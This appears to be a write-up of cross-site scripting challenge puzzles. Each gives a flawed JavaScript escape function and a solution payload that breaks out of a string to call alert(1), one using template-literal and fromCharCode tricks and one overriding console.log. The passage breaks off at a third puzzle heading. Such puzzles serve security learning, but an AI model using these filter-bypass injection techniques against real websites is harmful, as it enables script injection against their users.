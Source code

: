 ## Well

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
function escape(s) {
  http://www.avlidienbrunn.se/xsschallenge/

  s = s.replace(/[\r\n\u2028\u2029\\;,()\[\]<]/g, '');
  return "<script> var email = '" + s + "'; <\/script>";
}
```

- Solution

```
'+Function`a${`alert${Function`a${`return fromCharCode`}{fromCharCode}``${String}``40`}1${Function`a${`return fromCharCode`}{fromCharCode}``${String}``41`}`}```+'
```


## No

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).

```
// submitted by Stephen Leppik

function escape(s) {
    s = s.replace(/[()`<]/g, ''); // no function calls

    return '<script>\n' +
           'var string = "' + s + '";\n' +
           'console.log(string);\n' +
           '</script>';
}
```

- Solution

```
";string=1;console.log=alert//
```

- Output

```
<script>
var string = "";string=1;console.log=alert//";
console.log(string);
</script>
```

## K'Z'K

- The code below generates HTML in an unsafe way. Prove it by calling alert(1).
